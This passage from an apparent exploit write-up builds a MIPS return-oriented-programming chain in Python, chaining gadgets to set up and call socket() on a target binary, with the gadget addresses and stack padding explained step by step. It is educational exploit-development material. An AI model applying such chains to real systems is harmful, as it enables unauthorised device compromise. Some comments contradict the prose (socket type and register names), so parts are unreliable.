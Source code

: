 The _socket_ function takes 3 arguments - _domain_, _type_, and _protocol_. We want _domain_ to be _AF_INET_ which corresponds to a value of 2. Then we want type to be _SOCK_DGRAM_, which is also 2. The final argument is then 0 as we want the OS to determine the protocol based on the _domain_ and _type_ values we provided. The code below adds gadgets that set these values:

```
-python
## Set first argument for socket to 2
# 0x0011e670: addiu $a0, $zero, 2; lw $ra, 4($sp); move $v0, $zero; lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += b'b'*4
chain += p32(0x172e0c + base_address) # ra

## Set second argument for socket to 2
# Set a1 to be 0
# 0x00172e0c: move $a1, $zero; lw $ra, 0xc($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 0x10;
chain += b'b' * 0xc
chain += p32(0x115428 + base_address)

# Add 2 to a1
# 0x00115428: addiu $a1, $a1, 2; lw $ra, 4($sp); move $v0, $s0; lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += p32(0xdeadbeef) # s0
chain += p32(0x6d42c + base_address)

## Set third argument for socket to 0
# 0x0006d42c: move $a2, $zero; lw $ra, 4($sp); addiu $v0, $zero, 1; jr $ra; addiu $sp, $sp, 8;
chain += b'b' * 4
chain += p32(0x57864 + base_address) # ra
```

To get 2 into _$a2_, a single gadget didn't exist that could achieve this, so I chained a couple of nicer gadgets together to achieve the same result.

It is worth highlighting that the _$sp_ is at the 'top' of the gadget - let me explain. For the 'add 2 to a1' gadget for example, _$s0_ is being loaded at an offset of 0 from _$sp_ with the **lw $s0, ($sp)** instruction, and then _$ra_ is being loaded at an offset of 4 from _$sp_ with **lw $ra, 4($sp)**. The loaded _$s0_ is above _$ra_ in the chain construction, so you can imagine the stack pointer being at the start of _$s0_. I've found this to be the easiest way to visualise the stack pointer location as you build the chain, and it nicely compartmentalises each gadget used in the chain.

Now, we need to actually call _socket_. We know the address of socket, so we can simply load the address of this function into a register, and then use a **jalr** call to call the function at the address in our register. After looking through a few gadgets, _$v0_ was the best candidate, so the following gadgets were chained together to call _socket_:

```
-python
# Load address of socket into v0
# 0x00057864: lw $v0, ($sp); lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10;
chain += p32(socket_addr) # v0 - socket address
chain += b'b' * 8
chain += p32(0x133d58 + base_address) # ra

# Call socket(2, 1, 0) and regain control
# 0x00133d58: jalr $v0; nop; move $s0, $v0; lw $ra, 0x24($sp); move $v0, $s0; lw $s2, 0x20($sp); lw $s1, 0x1c($sp); lw $s0, 0x18($sp); jr $ra; addiu $sp, $sp, 0x28;
chain += b'b' * 0x18
chain += p32(sockfd_addr) # s0
chain += p32(0xdeadbeef) # s1
chain += p32(0xdeadbeef) # s2
chain += p32(0x185e38 + base_address) # ra
```
